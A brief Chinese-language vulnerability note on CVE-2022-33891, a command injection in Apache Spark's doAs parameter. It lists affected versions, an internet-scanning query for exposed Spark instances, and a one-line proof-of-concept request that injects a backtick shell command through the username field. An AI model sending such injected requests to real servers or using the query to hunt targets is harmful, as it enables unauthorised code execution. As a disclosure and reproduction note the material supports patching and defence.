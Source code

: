 # Apache Spark doAs 远程命令执行漏洞 CVE-2022-33891

# Apache Spark doAs 远程命令执行漏洞 CVE-2022-33891

## 漏洞描述

Apache Spark 支持启动 ACL 来为 Web UI 访问提供身份验证，当 ACL 启动时可以通过构造特殊请求用户名导致 RCE

## 漏洞影响

```
Spark Core - Apache <=3.0.3
3.1.1 <= Spark Core - Apache <=3.1.2
3.2.0 <= Spark Core - Apache <=3.2.1
```

## 网络测绘

```
app="APACHE-Spark"
```

## 漏洞复现

主页面

![image-20220909104326093](/images/202209091043173.png)

验证POC

```
/jobs/?doAs=`touch /tmp/test.txt`
```

![image-20220909104423065](/images/202209091044113.png)

